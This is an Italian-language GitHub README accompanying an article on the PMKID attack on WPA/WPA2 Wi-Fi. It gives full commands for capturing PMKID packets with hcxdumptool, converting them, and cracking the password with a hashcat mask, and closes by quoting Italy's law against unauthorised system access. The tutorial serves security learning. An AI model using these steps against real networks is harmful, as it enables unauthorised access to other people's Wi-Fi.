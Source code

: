 # PMKID ATTACK

<div align="center">
 <img src="https://miro.medium.com/max/1354/1*D5RpNYKS1LzMb3sV8PMHbQ.png">
</div>

Questo repository è di supporto all'articolo riguardo il **PMKID ATTACK** disponibile [qui](https://medium.com/@mariocuomo/pmkid-attack-parte-1-9ae5433ea85e).<br>
L'articolo tra ispirazione dal [post](https://hashcat.net/forum/thread-7717.html) pubblicato il 4 agosto 2018 sul forum di **hashcat** riguardo una vulnerabilità nel protocollo Wi-Fi Protected Access (WPA e WPA2).


#### SCENARIO
Un Client che non è in possesso della password di un Access Point cerca di riceve un messaggio contenente un **PMKID** - una stringa cifrata il cui unico parametro ignoto è il **PMK**.<br>
Il **PMK** è generato a partire dalla password in chiaro e altre varibili note al Client.<br>
Conoscendo il processo generativo del PMK dalla password e quello del PMKID a partre dal PMK, il Client cerca di costruire un **PMKID*** a partire da password note.


#### TOOL NECESSARI
- [hcxdumptool](https://github.com/ZerBea/hcxdumptool), uno strumento che come suggerisce la descrizione del repository github è in grado di 'acquisire pacchetti da dispositivi wlan e scoprire potenziali punti deboli all'interno delle proprie reti WiFi'.<br>
È necessario quindi possedere una scheda wireless che supporti la _monitor mode_.
- [hcxtools](https://github.com/ZerBea/hcxtools), uno strumento che come suggerisce la descrizione del repository github permette di 'converti i pacchetti dalle acquisizioni per rilevare i punti deboli all'interno delle proprie reti WiFi analizzando gli hash'
- [hashcat](https://hashcat.net/hashcat/), uno strumento che implementa diversi algoritmi di cifratura e utilizzato per il recupero password


## PASSO 1 - INSTALLARE I VARI TOOL
È necessario clonare i repositori hcxdumptool e hcxtools.
```Bash
git clone https://github.com/ZerBea/hcxdumptool.git
cd hcxdumptool
make && make install

git clone https://github.com/ZerBea/hcxtools.git
cd hcxtools
make && make install
```

## PASSO 2 - IMPOSTARE LA PROPRIA SCHEDA IN MODALITÀ MONITOR
Uno strumento per impostare la propria interfaccia wireless in modalità monitor è [Airmon-ng](https://aircrack-ng.org/doku.php?id=it:install_aircrack)
```Bash
wget http://download.aircrack-ng.org/aircrack-ng-1.0.tar.gz
tar -zxvf aircrack-ng-1.0.tar.gz
cd aircrack-ng-1.0
make
make install
```

Se x è il nome della propria interfaccia - scopribile tramite il comando ```ifconfig``` - lanciare il comando 
```Bash
airmon-ng start x
```
Da questo momento il nome della interfaccia wireless avrà la forma x**mon**.<br>
Per avere una conferma rilanciare il comando ```ifconfig```.



## PASSO 3 - CATTURARE PACCHETTI DI INTERESSE
A questo punto è necessario catturare i pacchetti di interesse.<br>
Il comando minimale è il seguente, dove il parametro **-o** indica il file di output sul quale si scriverà e il parametro **-i** indica la sorgente dalla quale si cattureranno i pacchetti.

```Bash
hcxdumptool -o pacchetti.pcapng -i xmon 
```

Un parametro di interesse da aggiungere è **enable_status**.<br>
Questo parametro permette di specificare a quali pacchetti siamo interessati:<br>

**1**: EAPOL<br>
**2**: PROBEREQUEST/PROBERESPONSE<br>
**4**: AUTHENTICATON<br>
**8**: ASSOCIATION<br>

Siamo interessati ai pacchetti EAPOL.

```Bash
hcxdumptool -o pacchetti.pcapng -i xmon --enable_status=1
```

Il file creato può essere visualizzato con [wireshark](https://www.wireshark.org/).<br>
È possibile filtrare i pacchetti di interesse con il filtro wireshark ```eapol && wlan.rsn.ie.pmkid```



## PASSO 4 - CONVERTIRE IL FILE OUTPUT DI HCXDUMPTOOL
Il file .pcapng deve ora essere convertito in un formato comprensibile ad hashcat.<br>
In accordo a quanto previsto per la versione 6.2.5 di hashcat costruiamo un file con estensione .hc22000.

```Bash
 hcxpcapngtool -o hash.hc22000 -E wordlist pacchetti.pcapng
 ```
 
 
## PASSO 5 - LANCIARE IL MECCANISMO DI BRUTEFORCE
Se si osserva il file appena creato esso segue la seguente forma:

**PROTOCOL** * **TYPE** * **PMKID/MIC** * **MACAP** * **MACCLIENT** * **ESSID** * **ANONCE** * **EAPOL** * **MESSAGEPAIR**

L'ESSID è espresso in esadecimale.<br>
Al solo titolo di esempio, si lanci il seguente script per decodificarli:

```Bash
awk -F "*" '{ system("echo " $6 " | xxd -r -p; echo" ) }' hash.hc22000
```
 
Si hanno tutte le informazioni necessarie per iniziare la computazione del PMKID.<br>
Come si è visto nell'articolo è necessario iniziare da una password, generare il PMK e successivamente il PMKID*.<br>
Ma da quali password iniziare?<br>
Si può utilizzare una lista di password candidate o si può esprimere una **mask**.<br>
Una mask descrive la struttura della passoword: si immagini di avere una password composta da 8 cifre decimali.<br>
Il comando è il seguente

```Bash
hashcat -m 22000 hash.hc22000 -a 3 -w 4 ?d?d?d?d?d?d?d?d
```

Il parametro -a indica l'hash type e il parametro -w indica il profilo di workload.



et voilà, tocca solamente attendere!

---

> **Art.615-ter. (Accesso abusivo ad un sistema informatico e telematico).<br>
> Chiunque abusivamente si introduce in un sistema informatico o telematico protetto da misure di sicurezza ovvero vi si mantiene contro la volontà espressa o tacita di chi ha il diritto di escluderlo, è punito con la reclusione fino a tre anni.**

---
